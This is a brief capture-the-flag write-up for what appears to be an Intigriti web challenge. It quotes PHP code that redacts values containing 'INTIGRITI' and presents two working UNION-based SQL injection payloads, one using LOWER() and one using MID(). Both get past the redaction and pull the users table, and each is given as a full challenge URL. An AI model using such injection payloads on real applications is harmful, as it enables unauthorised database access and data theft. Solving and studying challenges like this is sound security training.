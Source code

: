 ```
<td><?= htmlspecialchars(strpos($row['id'],"INTIGRITI")===false?$row['id']:"REDACTED"); ?></td> 
<td><?= htmlspecialchars(strpos($row['name'],"INTIGRITI")===false?$row['name']:"REDACTED"); ?></td>
<td><?= htmlspecialchars(strpos($row['email'],"INTIGRITI")===false?$row['email']:"REDACTED"); ?></td>
```

We need our list of gadgets to find a useful one.

The first one I found to solve the challenge was `LOWER()`. Thanks to the lower command I was able to make the word intrigriti lowercase and return the contents of the column :)

Payload:  `1^(1)UNION(SELECT(F.2),(F.3),(lower(F.4))FROM(SELECT(1),2,3,(4)UNION(SELECT*FROM(users)))F)`

https://challenge-0923.intigriti.io/challenge.php?max=1^(1)UNION(SELECT(F.2),(F.3),(lower(F.4))FROM(SELECT(1),2,3,(4)UNION(SELECT*FROM(users)))F)

another useful command found was mid(). Mid is an alternative to substr() and thanks to this command it was possible to remove the word INTIGRITI.

Payload2: `1^(1)UNION(SELECT(F.2),(F.3),(mid(F.4,10,90))FROM(SELECT(1),2,3,(4)UNION(SELECT*FROM(users)))F)`

https://challenge-0923.intigriti.io/challenge.php?max=1^(1)UNION(SELECT(F.2),(F.3),(mid(F.4,10,90))FROM(SELECT(1),2,3,(4)UNION(SELECT*FROM(users)))F)

it's likely there are other ways to extract the flag, you just need to have fun :)
